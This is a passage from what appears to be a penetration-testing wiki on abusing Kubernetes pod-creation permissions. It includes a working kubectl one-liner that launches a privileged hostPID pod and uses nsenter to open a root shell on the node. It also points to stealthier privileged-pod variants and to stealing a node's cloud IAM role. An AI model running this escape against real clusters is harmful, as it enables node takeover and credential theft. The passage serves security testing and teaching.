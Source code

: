 Create the pod with:

```bash
kubectl --token $token create -f mount_root.yaml
```

One-liner from [this tweet](https://twitter.com/mauilion/status/1129468485480751104) and with some additions:

```bash
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```

Now that you can escape to the node check post-exploitation techniques in:

{% content-ref url="../attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

#### Stealth

You probably want to be **stealthier**, in the following pages you can see what you would be able to access if you create a pod only enabling some of the mentioned privileges in the previous template:

* [**Privileged + hostPID**](../../../linux-unix/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation.md#privileged-+-hostpid)
* [**Privileged only**](../../../linux-unix/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation.md#privileged)
* [**hostPath**](../../../linux-unix/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation.md#arbitrary-mounts)
* [**hostPID**](../../../linux-unix/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation.md#hostpid)
* [**hostNetwork**](../../../linux-unix/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation.md#hostnetwork)
* [**hostIPC**](../../../linux-unix/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation.md#hostipc)

_You can find example of how to create/abuse the previous privileged pods configurations in_ [_https://github.com/BishopFox/badPods_](https://github.com/BishopFox/badPods)\_\_

### Pod Create - Move to cloud

If you can **create** a **pod** (and optionally a **service account**) you might be able to **obtain privileges in cloud environment** by **assigning cloud roles to a pod or a service account** and then accessing it.\
Moreover, if you can create a **pod with the host network namespace** you can **steal the IAM** role of the **node** instance.

For more information check:

{% content-ref url="../../../cloud-security/pentesting-kubernetes/kubernetes-access-to-other-clouds.md" %}
[kubernetes-access-to-other-clouds.md](../../../cloud-security/pentesting-kubernetes/kubernetes-access-to-other-clouds.md)
{% endcontent-ref %}
